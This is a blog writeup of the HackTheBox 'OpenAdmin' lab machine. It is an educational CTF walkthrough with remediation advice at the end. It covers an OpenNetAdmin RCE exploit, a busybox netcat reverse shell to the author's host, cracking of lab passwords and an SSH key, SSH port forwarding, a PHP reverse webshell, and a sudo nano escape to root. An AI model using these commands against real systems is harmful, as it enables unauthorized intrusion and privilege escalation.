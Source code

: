 ```yaml
---
layout: writeup
title: OpenAdmin - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the OpenAdmin Box from HackTheBox
image: # /assets/images/OpenAdmin/OpenAdmin.png
fig-caption: # Add figcaption (optional)
tags: [LainKusanagi, Linux]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called OpenAdmin, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like we're gonna be dealing with a web app. I go check it out in browser, but I get the Ubuntu Default Page, so it's time for `feroxbuster`.

![OpenAdmin2.png](/assets/images/OpenAdmin/OpenAdmin2.png){: .center-aligned width="600px"}

After we scan the IP, it looks like there are essentially three directories which act as three different sites - `/music`, `/artwork`, and `/sierra`. 

![OpenAdmin3.png](/assets/images/OpenAdmin/OpenAdmin3.png){: .center-aligned width="600px"}

They are look like static sites, so it may take some time to poke around. Eventually I click around on the websites and check the Login button in the top right corner of `/music`, and it links to `http://10.10.10.171/ona/ona`.

![OpenAdmin4.png](/assets/images/OpenAdmin/OpenAdmin4.png){: .center-aligned width="600px"}I note the tab says "OpenNetAdmin", which tracks with the name of the box and is likely what ona stands for. I check exploit-db and find an [RCE](https://www.exploit-db.com/exploits/47691), but I can't get it working. Fortunately the go-getters over at [github dot com](https://github.com/amriunix/ona-rce) have another one cooked up so I clone it to my working directory, and we're off. I check the documentation, run `python3 ona-rce.py exploit http://10.10.10.171/ona` and it shows a shell. I test it with `whoami`, and it responds, so I feed it the busybox shell (`busybox nc 10.10.14.2 445 -e /bin/bash`) to get a proper shell. 

I start looking around, running the usual commands. I see this writeable directory: `/var/www/html/marga/.git`, but we don't have git, and it looks like there's nothing interesting in there. Apparently it was just another site. I notice some interesting privileges for joanna, so hopefully I can get to that user. I see that the machine may be vulnerable to `PwnKit`, though I try to avoid that at first in case it's not the intended path. 

![OpenAdmin5.png](/assets/images/OpenAdmin/OpenAdmin5.png){: .center-aligned width="600px"}
 
 It also looks like there are a couple of services listening only on localhost. 
 ![OpenAdmin6.png](/assets/images/OpenAdmin/OpenAdmin6.png){: .center-aligned width="600px"}
![OpenAdmin7.png](/assets/images/OpenAdmin/OpenAdmin7.png){: .center-aligned width="600px"}

Frankly I suspect the internal site is the way to go, because it just seems crazy that something like that would be set up for a lab and not be the intended path. `PwnKit` will have to wait. 

At this point, I had to take a break for the night, and when I came back OpenNetAdmin was no longer responding. I reverted. I even switch VPNs to another instance. Nothing. That's one of the downsides of HTB I guess, maybe I should have gone for the premium subscription or something because I need the ONA exploit to get back on the machine and can't progress. 

Eventually I get it working again, but ligolo crashed the machine every time, keeping me from forwarding the internal site to my machine to check out. At that point I decided to look around more throughly for a password or something, and I found database credentials: `ona_sys`:`n1nj4W4rri0R!`

![OpenAdmin8.png](/assets/images/OpenAdmin/OpenAdmin8.png){: .center-aligned width="600px"}

I check out the mysql instance and find this info from the users table in the ona_default database:

![OpenAdmin9.png](/assets/images/OpenAdmin/OpenAdmin9.png){: .center-aligned width="600px"}

NTH suggests they are MD5 hashes, and hashcat cracks them both as `test`. Not particularly encouraging. That's ok, I tried to `su jimmy`, and the `n1nj4W4rri0R!` password works. So we're moving on. I look around for a little bit, but I can't actually find anything I have new access to to help me find root or joanna's password. Fortunately, after crashing the lab machine again, I determine that I can ssh into it with jimmy. So that means I can perform local port forwarding. The syntax is `ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171`. This means that I can use port 52846 on the localhost (127.0.0.1) to access port 52846 on the remote host (10.10.10.171), but I do need to enter jimmy's credentials to do so. After that, I just visit 127.0.0.0.1:52846 in the browser and see this login screen:

![OpenAdmin10.png](/assets/images/OpenAdmin/OpenAdmin10.png){: .center-aligned width="600px"}

I notice that the tab says `Tutorialspoint.com`, and viewing the source code shows this:
![OpenAdmin11.png](/assets/images/OpenAdmin/OpenAdmin11.png){: .center-aligned width="600px"}

I start feroxbuster in the background just in case, but it finds nothing of interest. Then I go back to `/var` and find that I now have access to the `/var/www/internal` folder, so I can learn more about the web page. 

![OpenAdmin12.png](/assets/images/OpenAdmin/OpenAdmin12.png){: .center-aligned width="600px"}

There's nothing of note in logout, and main seems to be showing us joanna's ssh password, so the key is likely in index. 

![OpenAdmin13.png](/assets/images/OpenAdmin/OpenAdmin13.png){: .center-aligned width="600px"}

Main seems to be giving us a sha512 password and the username of jimmy. So we just need to crack that, and we may be good to go. 

![OpenAdmin14.png](/assets/images/OpenAdmin/OpenAdmin14.png){: .center-aligned width="600px"}

It cracks pretty quickly as `Revealed`. We enter jimmy:Revealed into the web page, and we do see joanna's id_rsa. 

![OpenAdmin15.png](/assets/images/OpenAdmin/OpenAdmin15.png){: .center-aligned width="600px"}

But when I copy it, change the permissions (`chmod 600 joanna.id_rsa`), and try to use it, it requires a password. Interesting. Neither `ninja` nor `n1nj4W4rri0R!` works either. So I run `ssh2john joanna.id_rsa > joanna.hash` to get a new hash file, and then run `john joanna.hash` on it. This doesn't work initially, because it doesn't work on john's default wordlist. I change it to rockyou.txt, and we're off. 

![OpenAdmin16.png](/assets/images/OpenAdmin/OpenAdmin16.png){: .center-aligned width="600px"}

The other option is to simply put a webshell in the /var/www/internal directory and call it from the browser. We can use the classic [Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell) reverse shell for this. I transfer it over, call it from the browser, and voila. 

![OpenAdmin17.png](/assets/images/OpenAdmin/OpenAdmin17.png){: .center-aligned width="600px"}

Either way, we get the joanna shell. For whatever reason, when I run `sudo -l` as `joanna`, I get this error.

![OpenAdmin18.png](/assets/images/OpenAdmin/OpenAdmin18.png){: .center-aligned width="600px"}

But we know from running it previously as `www-data`, we can run nano on /opt/priv as joanna. When I try to run `sudo /bin/nano /opt/priv`, I get the error:

![OpenAdmin19.png](/assets/images/OpenAdmin/OpenAdmin19.png){: .center-aligned width="600px"}

Interesting. That seemed for sure the path forward. I don't see any new interesting SUID binaries or anything else when I re-run lse. So I get kinda stuck here. 

So then I reset the machine, ssh as joanna again, run `sudo l`, see that I can again run `sudo /bin/nano /opt/priv` and check [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) to find that I can get a root shell by running: 
`sudo nano`
`^R^X`
`reset; sh 1>&0 2>&0`

And boom, I get a root shell. 

![OpenAdmin20.png](/assets/images/OpenAdmin/OpenAdmin20.png){: .center-aligned width="600px"}

### Lessons Learned
This box took me a ton of time, but most of it was because the box kept crashing. The steps involved for the most part were relatively simple. The things that stuck out as not some much learned as reinforced are:
- Make sure to check every reasonable file for credentials. It took me a while to find the `ona_sys`:`n1nj4W4rri0R!` creds in `/opt/ona/www/local/config/database_settings.inc.php`. To be fair, there were a ton of config-y type files on this machine, but there was a lot of time spent on this one. 
- Use rockyou.txt rather than john's default wordlist. Most labs with like this can be cracked with rockyou, but I missed it with john's default. In real life, might need more targeted lists, but most of the labs, stick with rockyou. 
- I rarely use ssh for port forwarding. Usually I go with ligolo, but that crashed the machine, so nice to get some practice with ssh port forwarding. 

### Remediation Steps
- Patch the version of OpenNetAdmin. 
- Remove plaintext credentials from the database_settings.inc.php file. At the very minimum, it should be protected only to the users who need to access it. 
- Avoid the re-use of credentials for the ona user and jimmy. 
- If possible configure the firewall to prevent port forwarding. 
- Not sure what to say about the internal website as it is clearly CTF-y, but obviously don't put plaintext ssh keys up on a website, even internally. 
- Remove the ability of joanna to run `sudo nano /opt/priv`. That also is pretty CTF-y as that file was clearly not in use, but there it is.